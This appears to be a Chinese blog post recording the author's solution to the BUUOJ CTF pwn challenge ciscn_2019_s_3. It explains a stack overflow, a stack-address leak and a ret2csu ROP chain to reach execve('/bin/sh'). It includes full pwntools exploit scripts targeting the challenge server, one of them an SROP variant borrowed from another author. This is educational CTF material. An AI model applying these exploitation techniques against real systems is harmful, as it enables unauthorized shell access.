




# 记录一道ret2csu的pwn题


## 0x00 前言

> 写这道题之前, 大家首先要了解, 想要获得一个shell, 除了system("/bin/sh") 以外, 还有一种更好的方法, 就是系统调用中的 execve("/bin/sh", NULL, NULL)获得shell。我们可以在 Linux系统调用号表中找到对应的系统调用号,进行调用, 其中**32位程序**系统调用号用 eax 储存, 第一 、 二 、 三参数分别在 **ebx 、ecx 、edx**中储存， 可以用 **int 80**汇编指令调用。**64位程序**系统调用号用 rax 储存, 第一 、 二 、 三参数分别在 **rdi 、rsi 、rdx**中储存， 可以用**syscall** 汇编指令调用。

[题目链接](https://buuoj.cn/challenges#ciscn_2019_s_3)

这题我是不会做的🤡，至少在看别人的博客之前是这样。而且，在查阅了众多资料以及自己跟着gdb调试之后，才终于弄懂了这题的一种解法。所以，为了加深理解，在这里记录一下~~假装是自己做出来的~~自己复现的解题过程吧。😅

## 0x01 开始分析	

首先checksec

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

64位，没开PIE，没有cannary，开了NX（说明不能直接写shellcode）。

IDA看一下，`vuln()`和`gadgets()`很显眼啊，~~看着这函数名当时心想这估计又是一道简简单单的基础rop训练，且看我10分钟拿下🤣~~那就分别去看一下这两个函数的内容吧。

首先是`vuln()`。发现其中调用了`sys_read()`和`sys_write()`，都是系统调用的形式。而且`sys_read()`向大小为`0x10`的`buf`写入最多`0x400`个数，这显然存在溢出。

函数")

然后是`gadgets()`。其中存在两个设置`rax`寄存器的gadget，查一下[64位Linux系统调用表](https://archive.next.arttnba3.cn/2000/10/12/%E3%80%90%E8%B5%84%E6%96%99%E5%AD%98%E6%A1%A3-0x01%E3%80%91Linux%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E4%B8%80%E8%A7%88-by-arttnba3/#0x02.64%E4%BD%8D%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E4%B8%80%E8%A7%88%E8%A1%A8)，`0x0f`是`sigreturn`，`0x3b`是`execve`。再结合`vuln()`中存在`syscall`语句，就可以确定最明显的思路了，那就是想办法调用`execve("/bin/sh",  NULL, NULL)`来获取shell。



根据前言提到的64位Linux系统调用的传参方式，我们在调用`syscall`之前需要完成两点：

- `rax`寄存器置为`0x3b(59)`
- `rdi`设为`/bin/sh`字符串的地址，`rsi`/`rdx`设为0

## 0x02 execve/ret2csu解法

首先要想一下怎么获取指向字符串`/bin/sh`的地址。IDA view->open subviews->strings查看，发现没有`/bin/sh`。所以只能调`sys_read()`自己写了。同时，注意到**`vuln()`函数的结尾是没有`leave`指令的**，所以`vlun()`被调用完之后其函数栈并没有被清空，于是我们可以写`/bin/sh`在栈上，而且覆盖的时候覆盖的`rbp`就直接是返回地址。

那么第二个问题来了，如何知道`vuln()`函数栈的地址呢，答案就是利用`vuln()`中的`sys_write()`调用。该调用输出`0x30`个字节的内容，在调试的过程中可以看到，`buf`在栈上的地址为`0xdf30`，而从源码可知它与`rbp`的距离为`0x10`个字节，所以`sys_write()`输出的第`0x21~0x28`个字节是可执行文件名的地址，输出内容与`buf`地址的偏移为`0xe048-0xdf30=0x118=280`。所以，我们可以通过泄露可执行文件名地址的方式来获取`buf`的地址。

需要注意的是，题目说明了该题的远程环境为`Ubuntu18`，而我一开始是用`Ubuntu20`调试的，所以得到的偏移为`0x128`，多了`0x10`个字节，我说怎么一直不对，后来再装了个ubuntu18的wsl，发现果然如此，估计是系统的地址对齐之类的原因。有趣的是，在这一过程中还学习了一些wsl的新操作，也算是需求导向性学习了，[记录在了这里](https://1iu2y.github.io/posts/2021-08-27-wsl%E8%BF%81%E7%A7%BB%E7%AD%89%E6%93%8D%E4%BD%9C%E8%AE%B0%E5%BD%95/)。


`Ubuntu20`上面看到的就是`0xdf58-0xde30=0x128=296`。



OK，地址知道了，`execve()`的3个参数的值我们都能够确定了，所以第一步就是泄露'buf'的地址。

```python
payload1 = b'a'*0x10 + p64(vuln_addr)
io.sendline(payload1)

io.recv(0x20)

stack_addr = u64(io.recv(8))
binsh_addr = stack_addr - 0x118
```

上面的`payload1`发完之后，又进入了`vuln()`。接下来的就是通过第二个payload想办法构造ROP链来实现控制寄存器与函数跳转的过程，这又是这题的一个难点（因为我做这题之前不知道ret2csu:no_mouth:）。最简单的思路那肯定是用ROPgadget找到能够pop三个寄存器、然后ret的gadget。但是ROPgadget只能找到`pop rdi`和`pop rsi`的gadget（为什么`pop rsi; pop r15; ret`这条指令从中间开始取就是`pop rdi; ret`？这是指令设计的原因吗？），还差一个，所以这种方法行不通。



因此，我们得用一种新的ret方式，`ret2csu`，就是利用`_libc_csu_init()`的`pop`和`mov`两个gadget来实现控制寄存器的操作，一般适用于64位的题目。`ret2csu`的参考资料网上都有，感觉[这篇](http://www.sec4.fun/2020/05/14/csu/)写的挺清晰的。

两段gadget为

```assembly
//mov
.text:0000000000400580 loc_400580:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400580                 mov     rdx, r13
.text:0000000000400583                 mov     rsi, r14
.text:0000000000400586                 mov     edi, r15d
.text:0000000000400589                 call    ds:(__frame_dummy_init_array_entry - 600E10h)[r12+rbx*8]
.text:000000000040058D                 add     rbx, 1
.text:0000000000400591                 cmp     rbx, rbp
.text:0000000000400594                 jnz     short loc_400580
```

```assembly
//pop
.text:000000000040059A                 pop     rbx
.text:000000000040059B                 pop     rbp
.text:000000000040059C                 pop     r12
.text:000000000040059E                 pop     r13
.text:00000000004005A0                 pop     r14
.text:00000000004005A2                 pop     r15
.text:00000000004005A4                 retn
```

总结下来就是：

- `r15d` -> `edi` （一般来说`rdi`寄存器高8位都是0，所以这里虽然只控制了低8位，但实际上相当于可以控制`rdi`的值）
- `r14` -> `rsi`
- `r13` -> `rdx`
- 还有，`rbx`设为0，然后`call [r12+rbx*8];`就会以`r12`存储的地址为起点取指令，并且每次向后跳8位，因为call指令后会将`rbx`加1，然后对比`rbp`，如果不相等则再次循环

于是，理论上，我们就能够构造一段极其巧妙的`payload2`：

```python
payload2 = b'/bin/sh\x00'.ljust(0x10, b'a') + p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
payload2 += p64(0)*2 + p64(binsh_addr+0x50) + p64(0)*3
payload2 += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12) + p64(mov_rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh_addr) + p64(syscall)
```

对应的执行流程为：

1. 写完'/bin/sh'，`vuln()`内执行`retn`，进而执行`pop_rbx_rbp_r12_r13_r14_r15_ret`。`pop`6次，`rbx`/`rbp`/`r12`/`r13`/`r14`/`r15`分别被设为`0`/`0`/`binsh_addr+0x50`/`0`/`0`/`0`/，`rsp`此时指向`mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`，接在再`retn`，执行`mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`，此时`rsp`指向`mov_rax_59_ret`，**注意，这刚好是前面的`binsh_addr_0x50`😬**
2. `mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`指令执行，`rsi`/`rdx`被设置为0，第一次`call [r12];`。
3. 众所周知，`call`指令的执行过程是先push再jump，然后jump的目的指令段最后一般都有个ret回来。所以，第一次执行`call [r12];`，就相当于执行`mov_rax_59_ret`，把`rax`设为了`59`，然后`ret`。经过一番`push`/`ret`之后，**`rsp`又回到了`mov_rax_59_ret`的位置**，但此时`rbx`已经被加了1，值变为了`1`。然后通过后面的`cmp`判断，`jnz`再次跳回`mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`指令开头。
4. 再次执行`mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`，不同的是，此时`rbx`为`1`，所以`call`指令变为了`call [r12+8];`，所以`pop_rdi_ret`被执行：`call`首先`push`，`rsp`指向`call`之后的下一条指令，然后`jump`；`jump`之后`pop rdi`，`rdi`变为了`call`的下一条指令地址，`rsp`指向`mov_rax_59_ret`；再接着`ret`，`rsp`指向`pop_rdi_ret`，`rip`指令寄存器的内容为`mov_rax_59_ret`，所以系统执行的下一条指令为`mov_rax_59_ret`。
5. 执行`mov_rax_59_ret`，`rsp`指向`binsh_addr`，`rip`指令寄存器的内容为`pop_rdi_ret`，所以系统执行的下一条指令为`pop_rdi_ret`。
6. `pop rdi;`将`binsh_addr`写入`rdi`，然后`ret`执行`syscall`。此时，`rax`为59，且三个寄存器`rdi`/`rsi`/`rdx`分别为`binsh_addr`/`0`/`0`，相当于执行`execve("/bin/sh", NULL, NULL)`，拿到shell。

感觉[这篇博客](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)里的执行流程分析好像写错了一步...

最终完整exp如下。

```python
from pwn import *
；
# 本地调试
if args.LOCAL:
    # context.terminal = ["wsl", "-c"]
    # io = process("./ciscn_s_3")
    io = gdb.debug("./ciscn_s_3")
else:
    io = remote("node4.buuoj.cn", 25280)
    # context.log_level = 'debug'

vuln_addr = 0x4004ed
syscall = 0x400517
pop_rdi_ret = 0x4005a3
mov_rax_59_ret = 0x4004e2
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40059a
mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12 = 0x400580

payload1 = b'a'*0x10 + p64(vuln_addr)
io.sendline(payload1)

io.recv(0x20)

stack_addr = u64(io.recv(8))
binsh_addr = stack_addr - 0x118
io.recv(0x38)

payload2 = b'/bin/sh\x00'.ljust(0x10, b'a') + p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
payload2 += p64(0)*2 + p64(binsh_addr+0x50) + p64(0)*3
payload2 += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12) + p64(mov_rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh_addr) + p64(syscall)

io.sendline(payload2)
io.interactive()
```

执行截图



## 0x03 sigreturn/SROP解法

贴一下别人的exp，等我学习一下SROP再回过头来看。

```python
from pwn import *
context.arch = 'amd64'
p =remote('node3.buuoj.cn',26063)# process('./ciscn_s_3') # 
e = ELF('./ciscn_s_3')
mov_rax_15_ret = 0x4004da
vuln_addr = 0x4004ed
syscall_addr = 0x400517
payload1 = b'A' * 0x10 + p64(vuln_addr)


p.sendline(payload1)
p.recv(0x20)
stack_leak = u64(p.recv(8)) - 0x118
log.info("stack addr: " + hex(stack_leak))

frame = SigreturnFrame()
frame.rax = 0x3b # syscall::execve, constants.SYS_execve is also ok
frame.rip = syscall_addr
frame.rdi = stack_leak
frame.rsi = 0
frame.rdx = 0
payload2 = b'/bin/sh\x00' + p64(0xdeadbeef) + p64(mov_rax_15_ret) + p64(syscall_addr) + bytes(frame)

p.sendline(payload2)
p.interactive()
```

## 0x04 总结

这题从不会，到看懂一种解法，以及查资料、gdb调试、尝试gdb+wsl2+pwntools联合调试、弄wsl ubuntu18、迁移占用c盘空间太多的wsl2-ubuntu20、写博客...，前前后后搞了差不多一天的时间🤣，一个字，疲惫=.=

不过总的来说，收获还是很多的，继续学吧

### 参考链接

- [关于32位和64位Linux的系统调用](https://www.cnblogs.com/lxy8584099/p/12013771.html)
- [x64寄存器传参](https://abcdxyzk.github.io/blog/2012/11/23/assembly-args/)
- [Ciscn_2019_s_3](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)


